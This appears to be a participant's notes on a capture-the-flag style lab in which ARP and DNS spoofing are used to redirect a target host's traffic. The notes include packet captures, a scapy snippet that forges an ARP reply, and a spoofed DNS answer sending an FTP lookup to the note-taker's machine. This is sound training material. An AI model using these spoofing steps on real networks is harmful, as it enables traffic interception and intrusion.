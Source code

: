 Host 10.6.6.35 is attacker controlled. Get command line access.
Pingable from main host
	* Have network connectivity


	Local network is 10.6.0.3/16 so we have direct L2 connectivity to the attacker server


	# Sample provided scripts
	arp_res.py
		* Comments in the script indicate that we need to construct a ARP response to steer traffic to our host
	dns_res.py
		* Comments in the script indicate that we need to construct a DNS response to steer traffic either to our host or another host.

	
	# Sample packet captures - Can use these to extract the full ARP fields if needed.

	ARP Request looking for IP address 10.10.10.1
    		1   0.000000 cc:01:10:dc:00:00 → ff:ff:ff:ff:ff:ff ARP 60 Who has 10.10.10.1? Tell 10.10.10.2
    ARP Reply responding with with MAC for IP 10.10.10.1
		    2   0.031000 cc:00:10:dc:00:00 → cc:01:10:dc:00:00 ARP 60 10.10.10.1 is at cc:00:10:dc:00:00

	DNS Request
		    1   0.000000 192.168.170.8 → 192.168.170.20 DNS 74 Standard query 0x75c0 A www.netbsd.org
	DNS Response
		    2   0.048911 192.168.170.20 → 192.168.170.8 DNS 90 Standard query response 0x75c0 A www.netbsd.org A 204.152.190.12


	They say to capture without name resolution otherwise it will hang
	tshark -nnr arp.pcap
	tcpdump -nnr arp.pcap

	-r is for read only need the -nn for host and port numberes

	Capturing on the interface (eth0) on the host we see that the attacker is arping for a MAC for 10.6.6.53.

	```
	guest@4e6ce9945b36:~$ tcpdump -nn -i eth0 arp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
01:19:44.513407 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:45.545516 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:46.589695 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:47.629401 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:48.673522 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
```

Doing some basic thinking, the `.53` here means it is a DNS server and its arping to do a name resolution to do an http GET which will serve out some reverse shell payload we want, or something like that.

Step 1 - Getting the arp response correct
ARP format details here: http://www.tcpipguide.com/free/t_ARPMessageFormat.htm

Incoming Request:
###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = who-has
  hwsrc     = 4c:24:57:ab:ed:84
  psrc      = 10.6.6.35
  hwdst     = 00:00:00:00:00:00
  pdst      = 10.6.6.53

 Response Should be:
 ###[ ARP ]### 
  hwtype    = 0x2	---
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at (0x02) --
  hwsrc     = 02:42:0a:06:00:03 --
  psrc      = 10.6.6.53 --
  hwdst     = 4c:24:57:ab:ed:84 --
  pdst      = 10.6.6.35 --

Sample constructed with the following code
```python
if __name__ == "__main__":
    a = ARP(pdst="10.6.6.35")

    a.op = 2 # arp reply
    a.plen = 4
    a.hwlen = 6
    a.ptype = 2048
    a.hwtype = 1
    a.hwsrc = "02:42:0a:06:00:03"
    a.psrc = "10.6.0.3"
    a.pdst = "10.6.6.35"
    a.hwdst = "4c:24:57:ab:ed:84"
    a.show()
```
```bash
###[ ARP ]###
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at
  hwsrc     = 02:42:0a:06:00:03
  psrc      = 10.6.0.3
  hwdst     = 4c:24:57:ab:ed:84
  pdst      = 10.6.6.35
```


Success, DNS request is:
02:43:13.857797 IP 10.6.6.35.57847 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
        0x0000:  4500 003c 0001 0000 4011 5a4d 0a06 0623  E..<....@.ZM...#
        0x0010:  0a06 0635 e1f7 0035 0028 5866 0000 0100  ...5...5.(Xf....
        0x0020:  0001 0000 0000 0000 0366 7470 066f 7375  .........ftp.osu
        0x0030:  6f73 6c03 6f72 6700 0001 0001            osl.org.....
02:43:13.866331 IP 10.6.6.53.53 > 10.6.6.35.52687: 0- 1/0/0 A 10.6.0.3 (62)
        0x0000:  4500 005a 0001 0000 4011 5a2f 0a06 0635  E..Z....@.Z/...5
        0x0010:  0a06 0623 0035 cdcf 0046 3e9d 0000 8100  ...#.5...F>.....
        0x0020:  0001 0001 0000 0000 0366 7470 066f 7375  .........ftp.osu
        0x0030:  6f73 6c03 6f72 6700 0001 0001 0366 7470  osl.org......ftp
        0x0040:  066f 7375 6f73 6c03 6f72 6700 0001 0001  .osuosl.org.....
        0x0050:  0000 0000 0004 0a06 0003                 ..........

From the capture, it looks like the victim is trying to resolve an FTP server. So, we'll serve them a DNS record pointing back to the attacker (us) and wait for the FTP connection next.



